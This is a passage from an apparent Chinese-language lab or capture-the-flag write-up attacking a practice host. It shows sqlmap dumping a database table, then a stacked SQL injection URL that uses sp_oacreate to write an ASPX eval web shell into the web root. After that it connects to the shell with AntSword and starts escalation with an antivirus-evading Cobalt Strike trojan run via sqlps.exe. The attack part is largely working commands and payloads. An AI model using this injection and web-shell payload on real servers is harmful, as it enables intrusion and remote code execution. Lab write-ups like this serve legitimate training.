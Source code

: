 > | temp           |
> | wwwroot        |
> +----------------+
> 
> [10:11:27] [INFO] table 'FoundStone_Bank.dbo.tmp' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.1.99/dump/FoundStone_Bank/tmp.csv'
> [10:11:27] [WARNING] HTTP error codes detected during run:
> 500 (Internal Server Error) - 61 times
> [10:11:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.1.99'
> 
> [*] ending @ 10:11:27 /2022-06-30/
> ```
> 
> ##### 将shell写入网站根目录。
> 
> + 从上面的结果发现有一个比较特别的目录。接下来我们尝试在该目录写入shell。这里我们先做一下免杀防止被删除，我就不把免杀的shell放出来了。
> 
> ```bash
> http://192.168.1.99/index.aspx?user_id=1;
> declare @f int,@g int;
> exec sp_oacreate 'Scripting.FileSystemObject',@f output;
> EXEC SP_OAMETHOD @f,'CreateTextFile',@f OUTPUT,'c:\inetpub\edrfgyhujikopl\shell.aspx',1;
> EXEC sp_oamethod  @f,'WriteLine',null,'<%@ Page Language="Jscript"%><%var a = "un";var b = "safe";Response.Write(eval(Request.Item["z"],a%2Bb));%>';
> ```
> 
> + 使用蚁剑链接上我们刚才上传的shell。
> 
> ![Screenshot_2022-06-30_10-29-41.png](../images/vulntarget-h%20write-up/Screenshot_2022-06-30_10-29-41.png)
> 
> ##### 提升权限
> 
> + 使用CS生存木马然后免杀上传的服务器，然后利用`sqlps.exe`执行命令刚才上传的木马。
> 